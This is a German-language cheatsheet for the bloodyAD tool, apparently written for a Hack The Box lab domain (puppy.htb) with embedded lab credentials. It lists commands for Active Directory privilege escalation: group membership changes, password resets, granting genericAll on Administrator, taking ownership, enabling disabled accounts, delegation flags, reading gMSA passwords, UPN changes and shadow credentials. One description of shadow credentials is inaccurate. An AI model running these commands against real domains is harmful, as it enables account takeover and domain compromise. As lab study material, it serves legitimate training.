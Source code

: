 
## 🩸 BloodyAD Cheatsheet

<br>

🧩 **Retrieve Domain Information**

Zeigt grundlegende Informationen zur Active Directory-Domäne wie Domain-Controller, Domänenfunktionsebene und andere Metadaten an.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get domain
```

<br>

🧩 **Retrieve User Information**

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object administrator
```

<br>

🧩 **Get groupMembers**

Listet alle Mitglieder der angegebenen AD-Gruppe (z. B. DEVELOPERS) auf und zeigt deren Benutzernamen und Details.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get groupMembers DEVELOPERS
```

<br>

🧩 **Add User To Group**

Zeigt alle Active Directory-Objekte an, auf die der Nutzer levi.james Schreibrechte hat. Mit --detail werden zusätzlich ausführliche Informationen zu den Berechtigungen ausgegeben.
Fügt den Benutzer levi.james zur Gruppe DEVELOPERS im Active Directory hinzu. Dadurch erhält der Nutzer die Rechte und Mitgliedschaften der Zielgruppe.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get writable --detail
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```

<br>

🧩 **Add New User**

Legt einen neuen Benutzer im Active Directory an, um ihn in der Domäne zu registrieren.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add user <Benutzername>
```

<br>

🧩 **Get Computers**

Listet alle Computerobjekte innerhalb der Active Directory-Domäne auf.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get computers
```
<br>

🧩 **Change Password**

Setzt das Passwort des angegebenen Active Directory-Benutzers ($target_username) auf ein neues Passwort ($new_password). Damit kann der Nutzer das Passwort eines anderen AD-Accounts ändern.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' set password $target_username $new_password
```

<br>

🧩 **Give User GenericAll Rights**

Gewährt dem Benutzer levi.james volle Zugriffsrechte („genericAll“) auf das AD-Objekt „Administrator“. Dadurch kann levi.james alle Eigenschaften und Berechtigungen des Administrator-Kontos ändern.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass levi.james volle Rechte bekommt.“
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add genericAll "CN=Administrator,CN=Users,DC=puppy,DC=htb" levi.james
```

<br>

🧩 **Write Owner**

Setzt den Besitzer des Active Directory-Objekts „DEVELOPERS“ auf den Benutzer levi.james. Dadurch erhält levi.james volle Kontrolle über dieses Objekt.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' set owner "CN=DEVELOPERS,DC=puppy,DC=htb" levi.james
```

<br>

🧩 **Enable a Disabled Account**

Entfernt das ACCOUNTDISABLE-Flag im User-Account-Control (UAC) des Benutzers joerg.calvus, wodurch das Konto wieder aktiviert wird.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' remove uac "CN=joerg.calvus,OU=Users,DC=puppy,DC=htb" -f ACCOUNTDISABLE
```

<br>

🧩 **Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag**

Fügt dem Benutzerkonto service-account das UAC-Flag TRUSTED_TO_AUTH_FOR_DELEGATION hinzu. Dadurch wird das Konto für die vertrauenswürdige Delegierung autorisiert.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add uac "CN=service-account,OU=Services,DC=puppy,DC=htb" -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

<br>

🧩 **ReadGMSAPassword**

Fragt das Active Directory-Objekt gmsa-web (Managed Service Account) ab und zeigt das Attribut msDS-ManagedPassword mit dem aktuellen verwalteten Passwort an.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object "CN=gmsa-web,CN=Managed Service Accounts,DC=puppy,DC=htb" --attr msDS-ManagedPassword
```
<br>

🧩 **Modify UPN**
Fragt beim Active Directory-Benutzer joerg das Attribut userPrincipalName ab und zeigt dessen Wert an.
Ändert im Active Directory beim Benutzer joerg das Attribut userPrincipalName auf „joerg2@puppy.htb“. Damit wird der Anmeldename des Nutzers angepasst.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object "CN=joerg,OU=Users,DC=puppy,DC=htb" --attr userPrincipalName
bloodyAD --host 10.129.204.169 -d puppy.htb -u admin -p 'Passw0rd!' set object "CN=joerg,OU=Users,DC=puppy,DC=htb" userPrincipalName -v "joerg2@puppy.htb"
```

<br>

🧩 **Shadow Credentials**

Fügt dem AD-Benutzer joerg sogenannte Shadow Credentials hinzu, die alternative Anmeldedaten (z. B. für Azure AD Pass-Through Authentication) ermöglichen.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u admin -p 'Passw0rd!' add shadowCredentials "CN=joerg,OU=Users,DC=puppy,DC=htb"
```


